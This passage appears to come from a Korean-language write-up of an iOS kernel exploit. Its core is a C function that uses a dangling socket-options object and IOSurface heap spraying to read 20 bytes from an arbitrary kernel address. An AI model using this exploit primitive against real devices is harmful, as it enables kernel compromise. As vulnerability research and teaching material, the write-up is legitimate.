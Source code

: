 해당 구조체의 크기는 20바이트이므로, 이를 통해 지정된 커널 주소의 20바이트 데이터를 읽어낼 수 있다.

```c
// second primitive: read 20 bytes from addr
void* read_20_via_uaf(uint64_t addr) {
    // create a bunch of sockets
    int sockets[128];
    for (int i = 0; i < 128; i++) {
        sockets[i] = get_socket_with_dangling_options();
    }
    
    // create a fake struct with our dangling port address as its pktinfo
    struct ip6_pktopts *fake_opts = calloc(1, sizeof(struct ip6_pktopts));
    fake_opts->ip6po_minmtu = 0x41424344; // give a number we can recognize
    *(uint32_t*)((uint64_t)fake_opts + 164) = 0x41424344; // on iOS 10, offset is different
    fake_opts->ip6po_pktinfo = (struct in6_pktinfo*)addr;
    
    bool found = false;
    int found_at = -1;
    
    for (int i = 0; i < 20; i++) { // iterate through the sockets to find if we overwrote one
        spray_IOSurface((void *)fake_opts, sizeof(struct ip6_pktopts));
        
        for (int j = 0; j < 128; j++) {
            int minmtu = -1;
            get_minmtu(sockets[j], &minmtu);
            if (minmtu == 0x41424344) { // found it!
                found_at = j; // save its index
                found = true;
                break;
            }
        }
        if (found) break;
    }
    
    free(fake_opts);
    
    if (!found) {
        printf("[-] Failed to read kernel\n");
        return 0;
    }
    
    for (int i = 0; i < 128; i++) {
        if (i != found_at) {
            close(sockets[i]);
        }
    }
    
    void *buf = malloc(sizeof(struct in6_pktinfo));
    get_pktinfo(sockets[found_at], (struct in6_pktinfo *)buf);
    close(sockets[found_at]);
    
    return buf;
}
```
